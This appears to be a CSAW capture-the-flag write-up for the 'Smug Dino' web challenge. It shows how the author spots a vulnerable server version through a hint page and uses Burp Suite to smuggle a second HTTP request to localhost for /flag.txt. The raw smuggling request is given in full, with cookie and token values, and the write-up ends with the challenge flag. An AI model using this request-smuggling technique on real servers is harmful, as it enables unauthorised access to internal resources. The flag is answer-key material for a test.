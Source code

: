 # Smug Dino

Given a page where we can access home, hint, and flag? page

if we access flag? page, we will be redirected to localhost:3009/flag.txt, which is not available. 

![Alt text](imgs/image1.png) 

From here, i believe what we need to do is a request smuggling, to confirm it, we can access the hint page and insert the server and it's version. Which give us a clue to a CVE report:

![Alt text](imgs/image2.png)

So i open my burpsuite to intercept the request and modify it. We intercept the request, send it to the repeater and play with the request.

Set the connection to 

``Connection: keep-alive``

and modify the body to a new HTTP request to /flag but the host is locahost

```
GET /flag HTTP/1.1
Host: web.csaw.io:3009
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://web.csaw.io:3009/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: access_token_cookie=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY5NDg2OTI1NSwianRpIjoiNTBkMWY0OWQtYTkwMC00NWMwLWIwZTUtMWFiZDg2NjM4MTRkIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRqdW1AdXNlci5uZXQiLCJuYmYiOjE2OTQ4NjkyNTUsImV4cCI6MTY5NDg3MDE1NSwibWVtYmVyIjpmYWxzZX0.1qrON61s6GhP1d0dLEufowz4l5SroQ9iPBZn64P0OXA; connect.sid=s%3AMz4zbFYfXVaDdn0LurRfwxRbcmbWHHdy.%2F7G8VM3HrudBd5eSWJuejyVd74Ef9mtPcKEimOaQkhE
Connection: keep-alive
Content-Length: 43

GET /flag.txt HTTP/1.1
Host: localhost
```
we'll get this response:

![Alt text](imgs/image3.png) 

<h3>Flag: <i>csawctf{d0nt_smuggl3_Fla6s_!}</i></h3>

